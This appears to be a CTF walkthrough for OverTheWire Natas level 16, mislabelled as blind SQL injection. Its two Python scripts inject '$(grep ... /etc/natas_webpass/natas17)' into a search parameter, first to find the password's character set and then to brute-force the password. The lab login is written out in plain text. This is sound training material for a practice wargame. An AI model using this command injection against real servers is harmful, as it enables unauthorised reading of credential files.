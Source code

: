 # Level 16 -> 17  

Blind SQLI  

we use the text response of whether the user exists or not to figure out the password for level 17  

use this script to find charset of the password (i.e. set of characters which make up the password)  

```python
import requests
from requests.auth import HTTPBasicAuth

auth = HTTPBasicAuth("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo")

charset = ""
allchars = "abcdefghijklmnopqrstuvwxyz" + "ABCDEFGHIJKLMNOPQRSTUVWXYZ" + "0123456789"

for char in allchars:
	r = requests.get(f"http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep {char} /etc/natas_webpass/natas17)", auth=auth)
	if "doomed" not in r.text:
		charset += char
		print(charset.ljust(len(allchars), "*"))
```

this works because of this query  

```
doomed$(grep a /etc/natas_webpass/natas17)
```

Checks if "**a**" is in the file **/etc/natas_webpass/natas17**  

Find password using bruteforce of charset characters using the script below  

```python
import requests
from requests.auth import HTTPBasicAuth

auth = HTTPBasicAuth("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo")

charset = "bhjkoqsvwCEFHJLNOT05789"
password = ""

for i in range(0, 32):
	for char in charset:
		r = requests.get(f"http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ^{password + char} /etc/natas_webpass/natas17)", auth=auth)
		if "doomed" not in r.text:
			password += char
			print(password.ljust(32, "*"))
			break
```

